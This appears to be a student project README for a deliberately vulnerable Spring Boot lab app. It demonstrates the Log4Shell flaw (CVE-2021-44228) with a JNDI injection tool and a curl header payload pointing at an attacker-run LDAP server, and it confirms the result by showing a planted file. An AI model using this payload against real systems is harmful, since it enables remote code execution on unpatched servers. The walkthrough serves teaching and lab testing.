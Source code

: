# CAP-6135 FinalProject Log4Shell Vulnerability - Exploitation POC (CVE-2021-44228)

## Contents

This repository contains a sample Spring Boot web application vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

## Dependencies

* Log4j 2.14.1
* JDK 1.8.0_181

## Prerequisites:

* Docker

## Running the application

```bash
$ docker build . -t vulnerable
$ docker run -p 9090:8080 --name vulnerable --rm vulnerable
```

To test the application is up and running, go to a browser and enter the local ip and the port chosen:

![](./sc_1.png)

## Pre-Exploitation

To breach the vulnerable app, we used the great exploitation tool created by @welk1n to test vulnerabities [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

*Note: Latest release can be found [here](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar)*

## Setting up the exploit

We run the exploitation tool and set it up with a 'malicious' command

```bash
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/hacked"
```

After executing the previous line, the tool will give us the endpoint that the vulnerable application should call

![](./sc_2.png)

## Exploitation

To breach the app we just need to call the app and introduce the correct call as an [HTTP Header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)

```bash
#Notice that we are including the endpoint given by the exploitation tool. 
#The name of the header does not matter because the app will print all the headers.

$ curl localhost:9090 -H 'Hack: ${jndi:ldap://192.168.86.220:1389/vqwfzl}'
```
This will bring the same html message that is rendered in the browser

```bash
  <h1 style="color: #5e9ca0;">Log4Shell</h1><h4>Vulnerability - Exploitation and Mitigation</h4><p>API Version: 1.0</p>
```

At this point the vulnerable app, logged all the headers using the vulnerable version of log4j and triggered the ldap server in the exploitation tool which executed the given command at start up

## Confirmation

```bash
$ docker exec vulnerable ls /tmp

...
hacked
...
```

## References

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://github.com/welk1n/JNDI-Injection-Exploit
https://github.com/christophetd/log4shell-vulnerable-app
